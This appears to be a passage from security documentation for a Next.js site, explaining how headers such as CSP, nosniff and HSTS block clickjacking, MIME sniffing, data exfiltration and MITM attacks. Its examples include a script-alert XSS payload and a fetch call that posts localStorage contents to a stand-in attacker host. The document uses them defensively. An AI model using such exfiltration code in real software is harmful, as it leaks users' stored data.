 **Defense Layers**:
1. ✅ `X-Frame-Options: DENY`
2. ✅ CSP `frame-ancestors 'none'`
3. ✅ Redundancy (both headers set)

---

#### 3. MIME Sniffing ✅

**Threats Blocked**:
- Browser interpreting files as different MIME type
- Executing non-script files as scripts

**Example Attack Blocked**:
```html
<!-- Attacker uploads image with embedded script -->
<img src="/uploads/malicious.jpg">
<!-- Contains: <script>alert('XSS')</script> -->

<!-- Result: Browser won't execute because X-Content-Type-Options: nosniff -->
```

**Defense Layers**:
1. ✅ `X-Content-Type-Options: nosniff`
2. ✅ Proper MIME type setting in Next.js

---

#### 4. Data Exfiltration ✅

**Threats Blocked**:
- Sending data to attacker's server → Blocked by CSP `connect-src`
- DNS rebinding attacks → Mitigated by CSP

**Example Attack Blocked**:
```javascript
// Attacker tries to exfiltrate data
fetch('https://attacker.com/steal', {
  method: 'POST',
  body: localStorage.getItem('sensitive')
});

// Result: Blocked by CSP (connect-src only allows 'self' + analytics)
```

**Defense Layers**:
1. ✅ CSP `connect-src` whitelist
2. ✅ `Referrer-Policy` (limits info sent)
3. ✅ HTTPS enforcement (HSTS)

---

#### 5. Man-in-the-Middle (MITM) ✅

**Threats Blocked**:
- HTTP downgrade attacks → Blocked by HSTS
- Mixed content → Blocked by CSP
- Insecure resource loading → Upgraded to HTTPS

